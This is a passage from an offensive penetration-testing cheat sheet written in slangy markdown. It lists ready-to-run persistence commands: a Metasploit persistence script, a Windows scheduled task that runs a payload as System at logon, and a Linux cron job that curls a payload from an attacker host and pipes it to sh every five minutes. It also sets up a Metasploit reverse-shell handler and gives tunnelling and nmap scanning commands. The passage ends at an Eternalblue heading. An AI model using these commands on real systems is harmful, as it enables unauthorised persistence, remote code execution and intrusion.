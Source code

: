 #### Persistence:

- MSF: `run persistence -U -i 5 -p 443 -r <yourIP>` *MSF will whine that this is deprecated, but it'll do it anyway*
- Windoze: `schtasks /create /tn "pwnsauce" /tr C:\Users\Public\persist.exe /sc ONLOGON /ru "System".`
- Linux: `echo "*/5 * * * * curl --insecure http://<yourIP>/img/pretty_pwny.png|sh" | crontab -`

#### Tunnelling Useful Shit

**sshuttle:**

`sshuttle -vNHr user@<targetIP> <IPrange>/24`

**SSH Local Port Forward:**

`ssh -l <user> -L 5901:127.0.0.1:5901 <IP_to_forward_from>`

**proxychains:**

Edit /etc/proxychains.conf if necessary (default port is 9050)

`proxychains <command to run>`


#### MSF USEFUL SHIT

##### Multihandler

```
use exploit/multi/handler

set lport 4455

set lhost <yourIP>

set ExitOnSession false

exploit -j
```

##### Metasploit Scans!

**TCP**

`db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -p- <targetIP>`

**UDP**

`db_nmap -e tap0 -n -v -Pn -sV -sC --version-light -A -sU -p- <targetIP>`


Import Scans

`db_import /path/to/nmap.xml`

#### Eternalblue

**Not useful when scanning linux boxes, buuuuuut**
